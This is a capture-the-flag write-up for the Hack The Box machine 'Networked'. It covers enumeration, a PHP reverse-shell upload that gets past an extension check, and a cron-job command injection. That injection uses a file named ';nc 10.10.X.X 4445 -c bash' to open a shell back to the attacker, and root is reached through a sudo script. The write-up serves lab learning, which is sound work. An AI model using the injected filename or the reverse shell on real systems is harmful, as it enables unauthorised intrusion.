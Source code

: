 ```yaml
---
title: HTB - Networked
tags: [Hacking, HTB, Security, Linux, PHP, Easy]
style:
color:
description: Here is my write up for the box Networked via Hackthebox.
---
```


I dont remember exactly when I popped this box, but I believe it was one of the first ones I did.

## 1. Enumeration

Alright, lets get down to it. First things first, nmap scan.

`nmap -Pn -sVC 10.10.10.146`

![nmap](../images/nmap_networked.png "nmap scan")

While that was running, I went ahead and started running both a dirb and nikto scan.

`dirb http://10.10.10.146 -r`

![dirb](../images/dirb_networked.png "dirb scan")

`nikto -h http://10.10.10.146`

![nikto](../images/nikto_networked.png "nikto scan")

## 2. Exploiting PHP

During the enum phase, dirb identified `backup.tar`. Downloading the tar file and unpacking it reveals the workings of `upload.php`. THe `upload.php` file only checks the extension of the file and if its under 60000k.

*insert vulnerbale php code screenshot*

Since we know how `upload.php` works, we can now upload a reverse shell and bypass the checks by modifying the request via Burp. I used pentestmonkey's handy dandy reverse PHP shell.

![burp modify request](../images/mod_req_networked.png "burp modify request")

## 3. Privilege Escalation to Guly

Now that we have a shell, its time to enumerate some more. First things first, lets see if `www-data` can run anything as root via the `sudo -l` command.

Bummer :(
*insert screenshot of running the sudo -l command*

Going to attempt to transfer `LinEnum` and then run it to see all the interesting things on this machine.

*insert screenshot of LinEnum output*

In the cron jobs section, we notice a job `check_attack`. Reading the contents of this cron job reveals that it checks the uploads folder in the `/var/www/html` directory. Running `ls -la` on that directory shows we dont have read/write access, but were going to try and touch a file in there anyway.

`touch test.txt`

*more screenshots*
Walla! It worked!

Now that we know we can touch a file, lets look at the code in the `check_attack` cron a little more carefully to see if we can exploit this and escalate our privileges. After looking over the code, there is one line that stands out in particularly:

`exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");`

If we touch a file into the uploads directory with the following name below:

`;nc 10.10.X.X 4445 -c bash`

Everything after the `;` symbol will be treated as a completely separate command. So when the cron job runs, which is being ran under the user Guly, it will execute the nc command then open a shell back on our attacking machine.

Success!

*more screenshots*

## 4. Privilege Escalation to root

Now that we have a little higher privileges lets do some more enumeration. First things first, checking if we can run anything as root via `sudo`.

`sudo -l`
*more screenshots*

Looks like we can run the above command as root. Quick google search?

Googling `changename.sh`, we find that there is a vulnerability that leads us on the path to get root *make a in-line link to the vulnerability*.

Following the instructions about the vulnerability below, we get root:

*insert screenshot of exploiting the script*

BOOM! Hello there root shell!
*insert screenshot of root shell*

## 5. Conclusion

Overall this was a nice box. For me, the biggest hurdle was moving from www-data to the user Guly. After that it was smooth sailing.

Always remember, enumeration is your best friend! So is Google.
